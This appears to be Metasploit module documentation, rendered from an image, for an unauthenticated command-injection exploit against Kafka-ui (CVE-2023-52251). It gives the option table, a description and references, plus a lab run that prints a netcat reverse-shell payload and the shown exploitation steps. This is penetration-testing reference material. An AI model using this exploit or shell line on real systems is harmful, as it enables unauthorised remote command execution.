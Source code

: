 ```shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT    8080             yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)
  VHOST                     no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                      or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  A command injection vulnerability exists in Kafka ui between `v0.4.0` and `v0.7.1` allowing
  an attacker to inject and execute arbitrary shell commands via the `groovy` filter parameter
  at the `topic` section.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-52251
  https://attackerkb.com/topics/ATJ1hTVB8H/cve-2023-52251
  https://github.com/BobTheShoplifter/CVE-2023-52251-POC


View the full module info with the info -d command.
```

## Options
No specific options for this module.

## Scenarios
### Kafka-ui v0.7.0 Unix/Linux Command - cmd/unix/reverse_netcat
```shell
msf exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > set verbose true
verbose => true
msf exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > exploit

[+] mkfifo /tmp/cpzbj; nc 192.168.201.8 4444 0</tmp/cpzbj | /bin/sh >/tmp/cpzbj 2>&1; rm /tmp/cpzbj
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:8080 can be exploited.
[+] The target is vulnerable. Kafka-ui version: 0.7.0
[*] Executing Unix/Linux Command for cmd/unix/reverse_netcat
[*] Searching for active Kafka cluster...
[+] Active Kafka cluster found: local
[*] Creating a new topic...
```